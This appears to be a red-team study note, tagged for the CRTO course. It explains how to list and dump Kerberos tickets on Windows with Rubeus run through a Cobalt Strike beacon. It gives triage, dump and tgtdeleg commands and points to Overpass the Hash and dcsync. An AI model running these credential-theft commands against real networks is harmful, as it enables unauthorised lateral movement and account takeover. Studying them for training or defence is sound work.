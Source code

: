 
[[Kerberos]] tickets can help an attacker perform malicious actions like [[Kerberoasting]], lateral movement, generate more tickets, etc.

These actions can cause a lot of noise though.

### 🖊️ extract TGT's via [Rubeus](https://github.com/GhostPack/Rubeus)

Uses legitimate Windows APIs, reducing the noise.

- Its `triage` command will list all the Kerberos tickets in your current logon session and if elevated, from all logon sessions on the machine.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`

![[kerberos_sessions.png]]

LUID (local unique identifier) is the logon session identifier. 
krbtgt - [[Ticket Granting Ticket (TGT)]] tickets
All others are [[Ticket Granting Service (TGS)]] tickets

- Once listed, you can extract them all or specific tickets from a session

All tickets
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump`

---
A specific ticket
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt`

This will output the ticket(s) in base64 encoded format.

  You may also add the `/nowrap` option which will format the base64 encoding onto a single line - this makes copy & pasting much easier.

---
Using TGT delegation method (non elevated session):

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
```

Here you will obtain a TGT ticket of your current session.
If you want to extract TGS tickets use [[Kerberoasting]]

### 🖊️ via Pivoting

In this section is detailed how you can extract tickets with external tools via pivoting:

- [[Pivoting with Kerberos]]


### ⚠ Rubeus + NTLM hash

If you have the NTLM or AES (can be extracted via [[dcsync]] or [[Impacket]] using getTGT, check [[Pivoting with Kerberos]]) hash of a user, you can request a new TGT for that user, using the technique [[Overpass the Hash]]. 

### Properties
---
📆 created   {{11-02-2024}} 12:00
🏷️ tags: #redteam #crto #activedirectory 

---

